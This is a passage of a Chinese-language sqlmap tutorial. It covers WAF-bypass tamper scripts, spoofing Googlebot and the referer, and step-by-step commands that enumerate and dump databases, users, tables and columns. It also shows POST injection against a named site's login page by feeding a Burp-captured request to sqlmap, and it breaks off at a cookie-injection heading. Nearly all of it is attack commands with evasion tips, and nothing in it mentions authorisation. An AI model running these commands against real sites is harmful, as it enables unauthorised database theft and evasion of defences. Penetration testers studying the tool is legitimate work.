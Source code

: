 --dbms "MySQL" //指定数据库

--tamper “space2morehash.py” //载入绕过WAF防火墙的脚本

--referer“http://www.google.com” //模拟来源，就是从哪个网页跳转过来的。如果不懂可以谷歌referer

--user-agent "Googlebot/2.1 (+http://www.googlebot.com/bot.html）" 模拟谷歌蜘蛛，一般都不会限制蜘蛛爬网站。

更多命令运用：

http://wenku.baidu.com/link?url=eMzrblqUDfXDaosGNkAKnthsT4AA79BEgd5XUnD624yqefBbHaqZk-lVx3pns2M6tApuP7bbNYpPTHGBgiCxdutlUKFGtdmJj80usI2nBuS

sqlmap注入方式普及

0.详细参数详解：http://pan.baidu.com/share/link?shareid=503193&uk=3223979763

1. 基础用法：

./sqlmap.py -u “注入地址” -v 1 --dbs // 列举数据库

./sqlmap.py -u “注入地址” -v 1 --current-db // 当前数据库

./sqlmap.py -u “注入地址” -v 1 --users // 列数据库用户

./sqlmap.py -u “注入地址” -v 1 --current-user // 当前用户

./sqlmap.py -u “注入地址” -v 1 --tables -D “数据库” // 列举数据库的表名

./sqlmap.py -u “注入地址” -v 1 --columns -T “表名” -D “数据库” // 获取表的列名

./sqlmap.py -u “注入地址” -v 1 --dump -C “字段,字段” -T “表名” -D “数据库” // 获取表中的数据，包含列

已经开始拖库了，SQLMAP是非常人性化的，它会将获取的数据存储sqlmap/output/中、、、

2. sqlmap post注入

我们在使用Sqlmap进行post型注入时，

经常会出现请求遗漏导致注入失败的情况。

这里分享一个小技巧，即结合burpsuite来使用sqlmap，

用这种方法进行post注入测试会更准确，操作起来也非常容易。

1. 浏览器打开目标地址http:// www.2cto.com /Login.asp

2. 配置burp代理(127.0.0.1:8080)以拦截请求

3. 点击login表单的submit按钮

4. 如下图，这时候Burp会拦截到了我们的登录POST请求

5. 把这个post请求复制为txt, 我这命名为search-test.txt 然后把它放至sqlmap目录下

6. 运行sqlmap并使用如下命令：

./sqlmap.py -r search-test.txt -p tfUPass

这里参数-r 是让sqlmap加载我们的post请求rsearch-test.txt，

而-p 大家应该比较熟悉，指定注入用的参数。

3，sqlmap cookies注入

